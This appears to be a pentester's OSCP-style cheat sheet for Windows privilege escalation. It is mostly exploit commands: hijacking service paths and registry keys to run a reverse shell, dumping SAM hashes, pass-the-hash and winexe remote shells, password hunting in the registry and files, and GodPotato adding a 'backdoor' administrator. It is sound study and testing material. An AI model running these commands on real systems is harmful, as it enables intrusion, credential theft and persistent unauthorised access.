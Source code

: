 ```yaml
---
title: "Manual Exploitation"
permalink: /notes/windowsmanualexploit/
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - windows
  - privesc
  - privilege escalation
  - privilege
  - escalation
  - manual
toc: true
hide_title: true
excerpt: ""
---
```


`./PowerUp.ps1` / ` Invoke-allChecks`
WinPEAS.exe doc - https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe
colors `REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1`

1. kernel exploit:
    
    - Detection:
        - `wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`
        - compare results with https://github.com/SecWiki/windows-kernel-exploits
    - Exploitation:
        - download pre-compiled versions from above link
        - manually compile exploit and upload to box

 2-6 all service: (avoid rabbit holes)

WinPEAS `./winpeas servicesinfo`
must be able to  `MODIFY OR START/STOP SERVICE`
check that we can start stop service `accesschk.exe /accepteula -ucqv <user> <reg>`

2. Service: Insecure Permissions:
    
    - Detection:
        - WinPEAS `Modifiable Services - ChangeConfig`
        - manually `accesschk64.exe -wuvc USER *`
    - Exploitation:
        - manually `sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
3. Service: Unquoted Service Path:
    
    - Detection:
        - WinPEAS `no quotes and Space detected`
	        - Ceck for write permission icacls/ echo in directory then get service name:
	        - wmic service get name,displayname,pathname,startmode
	        - sc query state= all
        - manually `accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
    - Exploitation:
        - manually create service binary, upload to path `C:\Program Files\Unquoted Path Service\Common.exe`, then `sc stop NAME; sc start NAME`
4. Service: Weak Registry Permissions:
    
    - Detection:
	    - WinPEAS `(Interactive [Allow: FullControl])`
        - manually `.\accesschk64.exe -kwusv hklm\System\CurrentControlSet\Services | select-string -pattern GROUP/USER -casesensitive -context 7,7`
    - Exploitation:
	    - manually change bin path: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`
5. Service: Insecure Service Executable:
    
    - Detection:
        - WinPEAS `File Permissions: Everyone [Allow: AllAccess]`
        - manually `accesschk64.exe -wuv FILE/DIRECTORY`
    - Exploit:
        - manually create service binary, upload, then overwrite service file `copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
6. DLL hijacking:
    
    - Detection:
        - WinPEAS `(DLL Hijacking)` in PATH
        - manually In process Monitor search for NAME NOT FOUND reg
    - Exploitation:
        - manually create DLL binary, upload to valid path, then `sc stop NAME; sc start NAME`
7. Registry: autorun:
    
    - Detection:
        - WinPEAS `./winpeas applicationsinfo` 
        - WinPEAS `FilePerms: Everyone [AllAccess]`
    - Exploitation:
        - manually create .exe, upload, then wait for administrator to log in
8. Registry: AlwaysInstallElevated:
    
    - Detection:
        - WinPEAS `./winpeas windowscreds` 
        - manually `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
        - and `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
    - Exploitation:
        - manually create MSI binary, upload, then run
9. Passwords: Registry
	
	- Detection:
        - WinPEAS `./winpeas filesinfo userinfo` 
	    - manually `reg query HKLM /f password /t REG_SZ /s`
	    - manually `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
	    - manual we can spawn shell from kali with registry found passwords with `winexe -U 'admin%password' --system //10.10.74.192 cmd.exe`
10. Passwords: Saved Creds
	
	- Detection:
	    - WinPEAS `./winpeas windowscreds` 
	    - manually `cmdkey /list`
    - Exploitation:
        - set listener and run `runas /savecred /user:admin C:\PrivEsc\reverse.exe`
11. Passwords: Configuration Files
	
	- Detection:
	    - WinPEAS `./winpeas searchfast filesinfo` 
	    - manually `dir /s *pass* == *.config`
	    - manually `findstr /si password *.xml *.ini *.txt`
12. Passwords: Security Account Manager (SAM)
	
	- Detection:
	    - WinPEAS `./winpeas searchfast filesinfo`  search for SAM and SYSTEM location
	    - manually `reg.exe save hklm\sam SAM` `reg.exe save hklm\system SYSTEM` `reg.exe save hklm\security SECURITY` move to kali
	    - manually dump `impacket-secretsdump -sam 'path/to/SAM' -system 'path/to/system' LOCAL`
	 - Exploitation:
		 - manually pass the hash `pth-winexe --system -U 'admin%hash' //10.10.74.192 cmd.exe`
13. Scheduled tasks:
    
	- Detection:
		- manually interesting folders in `C:/`
        - PowerUp `Get-ModifiableScheduledTaskFile`
    - Exploitation:
        - manually create .exe, upload, then place file in identified location
14. Insecure GUI Apps:
    
	- Detection:
        - manually `tasklist /V | findstr mspaint.exe`
    - Exploitation:
        - In Paint, click "File" and then "Open". In the open file dialog box, click in the navigation input and paste: file://c:/windows/system32/cmd.exe
15. Installed Applications:
    
	- Detection:
        - SeatBelt `seatbelt.exe NonstandardProcesses`
        - WinPEAS `winPEASany.exe procesinfo`
    - Exploitation:
        - search Exploit-DB
16. Hot Potato:
    
    - Exploitation:
        - manually `potato.exe -ip 10.10.10.10 -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true`
17. Token Impersonation:
    
    - Detection:
        - manual `whoami /priv`  `SeImpersonatePrivilege`
	- Exploitation:
        - manually `GodPotato.exe -cmd "net user /add backdoor Password123"` `GodPotato.exe -cmd "net localgroup administrators /add backdoor"`

